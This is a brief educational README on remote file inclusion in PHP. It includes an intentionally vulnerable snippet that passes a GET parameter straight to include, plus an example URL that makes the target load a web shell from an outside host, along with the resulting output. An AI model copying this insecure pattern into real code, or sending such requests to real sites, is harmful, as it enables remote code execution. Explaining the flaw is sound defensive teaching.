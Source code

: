 <p align="center"> <img src="https://raw.githubusercontent.com/qeeqbox/remote-file-inclusion/main/remote-file-inclusion.png"></p>

A threat actor may trick a vulnerable target to include/retrieve remote file

## Example #1
1. A threat actor uploads a PHP web shell to a temporary file service
2. A threat actor sends a file URL to a vulnerable target
3. The vulnerable target executes malicious files as PHP

## Code
#### Target-Logic
```php

#allow_url_include = On

<?php
  $file = $_GET["file"];
  include $file;
?>
```

#### Target-In
```
http://vulnerable.test/index.php?file=http://fileserver.test/shell.php
```

#### Target-Out
```
root
```

## Impact
High

## Names
- Remote file inclusion
- RFI

## Risk
- Read & Write data
- Command Execution

## Redemption
- Input validation
- Whitelist

## ID
cb60059e-846f-40df-9dbd-e687e8d6960a

## References
- [Wikipedia](https://en.wikipedia.org/wiki/file_inclusion_vulnerability)
